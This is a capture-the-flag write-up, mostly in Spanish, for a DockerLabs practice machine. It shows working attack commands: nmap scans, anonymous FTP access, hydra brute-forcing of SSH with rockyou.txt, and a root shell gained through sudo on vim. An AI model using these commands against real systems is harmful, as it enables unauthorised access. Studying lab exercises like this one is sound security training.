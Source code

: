 # Obsession

## Port Enumeration

To begin our scan, we use the Nmap tool during our discovery phase. As we can see, we have the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```
vamos a hacer un escaneo más dirigido a los servicios que tenemos
Para el servicio FTP utilizamos este tipo de escaneo que prueba algunos script tipicos:

```ruby
nmap -p21 -T4 --min-rate 1000 --script vuln,ftp-anon,ftp-bounce,ftp-syst 172.17.0.2
```
![Descripción de Obssesion](Imagenes/Obssesion_1.png)

Vemos como esta permitido el usuario y contraseña anonymous por defecto y encontramos dos fichero interesante.
chat_gonza.txt y pendientes.txt.

Por lo tanto nos lo descargamos para poder ver el contenido de los dos ficheros con el siguiente comando una vez que estamos dentro del 
servicio ftp:

![Descripción de Obssesion](Imagenes/Obssesion_2.png)

De la misma forma hacemois un escaneo mas particular para el servicio ssh 

```ruby
nmap -p22 -T4 --min-rate 1000 --script vuln,ssh-auth-methods,ssh-publickey-acceptance,sshv1 172.17.0.2
```
![Descripción de Obssesion](Imagenes/Obssesion_3.png)

sin embargo , no conseguimos nada relevante.


vamos a ver que hay en la página web,si examinamos el código fuente 
nos aparece esto: 
![Descripción de Obssesion](Imagenes/Obssesion_4.png)

Vamos a examinar los dos fichero que hemos descargado mediante el servicio ftp:

fichero pendientes.txt

```ruby
1 Comprar el Voucher de la certificación eJPTv2 cuanto antes!

2 Aumentar el precio de mis asesorías online en la Web!

3 Terminar mi laboratorio vulnerable para la plataforma Dockerlabs!

4 Cambiar algunas configuraciones de mi equipo, creo que tengo ciertos
  permisos habilitados que no son del todo seguros..
```

fichero chat_gonza.txt
```ruby
[16:21, 16/6/2024] Gonza: pero en serio es tan guapa esa tal Nágore como dices?
[16:28, 16/6/2024] Russoski: es una auténtica princesa pff, le he hecho hasta un vídeo y todo, lo tengo ya subido y tengo la URL guardada
[16:29, 16/6/2024] Russoski: en mi ordenador en una ruta segura, ahora cuando quedemos te lo muestro si quieres
[21:52, 16/6/2024] Gonza: buah la verdad tenías razón eh, es hermosa esa chica, del 9 no baja
[21:53, 16/6/2024] Gonza: por cierto buen entreno el de hoy en el gym, noto los brazos bastante hinchados, así sí
[22:36, 16/6/2024] Russoski: te lo dije, ya sabes que yo tengo buenos gustos para estas cosas xD, y sí buen training hoy
```
Podemos ver que hay tres usuarios potenciales "Gonza" , "Russoski" y "Nagore" por lo tanto vamos probar si algun de estos usuarios nos permite acceder al servicio ssh para ello voy autilizar la herramienta hydra y el diccionario "rockyou.txt".

```ruby
hydra -l gonza -P rockyou.txt -t 16 -W 30 -f  ssh://172.17.0.2
hydra -l russoski -P rockyou.txt -t 16 -W 30 -f  ssh://172.17.0.2
hydra -l nagore -P rockyou.txt -t 16 -W 30 -f  ssh://172.17.0.2
```
![Descripción de Obssesion](Imagenes/Obssesion_5.png)

Vemos como conseguimos la constraseña de russoski que es "iloveme",por lo tanto ya nos podemos conectar al servicio

![alt text](image.png)


## Escalada de privilegios

Ejecutamos el comando :
```ruby
sudo -l
```

![alt text](image-1.png)

Vemos que podemos ejecutar como root  el binario vim para ello vamos a GTobins y comprobamos si podemos eplotarlo:

```ruby
sudo vim -c ':!/bin/sh'
```
![alt text](image-2.png)
